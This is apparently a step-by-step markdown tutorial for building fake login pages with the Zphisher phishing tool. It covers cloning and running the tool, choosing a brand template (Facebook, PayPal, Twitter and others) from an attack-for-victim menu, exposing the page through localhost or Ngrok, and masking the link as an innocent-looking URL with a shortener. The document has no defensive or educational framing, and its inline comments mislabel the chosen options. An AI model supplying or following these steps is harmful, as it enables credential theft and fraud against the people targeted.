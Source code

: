 ## Creating Fake Page using ( Zphisher )

### Step 1 ( installing Zphisher )

```shell

git clone https://github.com/htr-tech/zphisher.git

```

### Step 2 ( running the program )

```shell

cd zphisher

bash zphisher.sh

```

### Step 3 ( target your website )

```shell

======
[::] Select An Attack For Your Victim [::]

[01] Facebook      [11] Twitch       [21] DeviantArt
[02] Instagram     [12] Pinterest    [22] Badoo
[03] Google        [13] Snapchat     [23] Origin
[04] Microsoft     [14] Linkedin     [24] DropBox	
[05] Netflix       [15] Ebay         [25] Yahoo		
[06] Paypal        [16] Quora        [26] Wordpress
[07] Steam         [17] Protonmail   [27] Yandex			
[08] Twitter       [18] Spotify      [28] StackoverFlow
[09] Playstation   [19] Reddit       [29] Vk
[10] Tiktok        [20] Adobe        [30] XBOX
[31] Mediafire     [32] Gitlab       [33] Github
[34] Discord

[99] About         [00] Exit
=====

8 # choosing option 1 for twitter

```

### Step 4 ( target your localhost )

```shell

=====
[01] Localhost
[02] Ngrok.io     [Account Needed]
[03] Cloudflared  [Auto Detects]
[04] LocalXpose   [NEW! Max 15Min]
=====

1 # choosing option 1 for localhost

```

### Step 5 ( custom port )

```shell

[?] Do You Want A Custom Port [y/N]: y

[-] Enter Your Custom 4-digit Port [1024-9999] : *port-number

```

### Step 4 ( target your Ngrok.io )

```shell

=====
[01] Localhost
[02] Ngrok.io     [Account Needed]
[03] Cloudflared  [Auto Detects]
[04] LocalXpose   [NEW! Max 15Min]
=====

2 # choosing option 1 for localhost

[-] Change Ngrok Server Region? [y/N]: N

[?] Do you want to change Mask URL? [y/N] : y

http://*website-name # Example # http://helloworld3301.com

# generate random website

=====
[-] URL 1 : https://b040-62-201-242-145.ngrok.io

[-] URL 2 : https://is.gd/HMWOge

[-] URL 3 : https://helloworld3301.com@is.gd/HMWOge
=====


```
